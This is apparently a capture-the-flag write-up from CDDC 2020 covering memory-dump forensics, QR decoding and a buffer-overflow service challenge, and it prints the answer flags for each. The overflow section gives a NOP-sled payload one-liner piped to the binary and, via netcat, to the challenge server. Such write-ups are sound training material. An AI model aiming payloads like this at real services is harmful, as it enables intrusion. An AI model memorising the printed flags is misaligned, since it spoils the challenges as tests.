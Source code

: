 ## Between 0&1

**Challenge**

While Unduplicitous Corp was conducting Incident Response on several legacy PCs, our trusty Insider, Resistance Fighter XAE found some weird activity on the PC.

Let's investigate.

Attached Files: dump

**Solution**

Volatility used to analyse the dump and the dump was converted from binary to text.

**Flag**

```
CDDC20{Ev1dence_H1dden_Between_0&1}
```

## How QueeR...

**Challenge**

We realised that Unduplicitous Corp uses this code for their assets tagging. But we can't figure out how exactly to decode it, hmm.

Attached Files: barcode.gif

**Solution**

Tool used: https://getsharex.com/
We used the Sharex tool in the end to solve this challenge.
Sharex > tools > QR code > Decode

**Flag**

```
CDDC20{Qu1Rky_quEeR_qUe57ion4bL3_c0d35s}
```

## Suspicious Service

**Challenge**

While conducting reconnaissance on Unduplicitous Corp, we found a suspicious service. Let's figure out what this is.

ss.chall.cddc2020.nshc.sg 7777

Attached Files: SuspiciousSvc

**Solution**

Reverse engineering and buffer exploitation
python -c ‘print(“\x90”*256+”\x00\x3d\x34\x01”)’ | ./SUSsvc
Now replace “./SUSsvc” with the netcat to the server. Flag will be returned (Server down by time writeup done)
